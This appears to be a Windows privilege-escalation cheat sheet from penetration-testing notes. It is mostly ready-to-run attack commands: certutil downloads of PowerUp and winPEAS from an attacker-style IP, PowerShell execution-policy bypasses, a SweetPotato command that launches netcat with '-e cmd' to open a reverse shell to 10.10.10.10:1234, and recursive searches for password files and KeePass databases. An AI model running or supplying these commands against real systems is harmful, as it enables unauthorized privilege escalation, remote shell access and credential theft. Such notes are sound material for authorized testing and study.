 **Python to Binary**

If we have an exploit written in python but we don't have python installed on the victim-machine we can always transform it into a binary with pyinstaller. Good trick to know.

### Automated Tools

#### PowerUp

```
 certutil.exe -urlcache -split -f http://192.168.10.10/PowerUp.ps1
 powersehll -ep bypass
 Invoke-AllChecks
```

#### Winpeas.exe (all including plaintext passwd)

```
certutil.exe -urlcache -split -f http://192.168.10.10:8080/winPEASx64.exe
.\winPEASx64.exe
```

Colors: 
```
REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```

#### PrivescCheck

```
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended"
```

#### PowerView
https://www.scribd.com/document/371576849/Power-View
```
powershell -ep bypass
. .\PowerView.ps1
```
https://gist.github.com/macostag/44591910288d9cc8a1ed6ea35ac4f30f

### Privileges

```
whoami /all
```

If nothing is working use SweetPotato and Netcat:
https://github.com/CCob/SweetPotato

```
.\SweetPotato.exe -e EfsRpc -p c:\Users\Public\nc.exe -a "10.10.10.10 1234 -e cmd"
```

### Password Hunting
Potential Interesting files
```
Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*.ini,*.kdbx,*.log -File -Recurse -ErrorAction SilentlyContinue

Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```
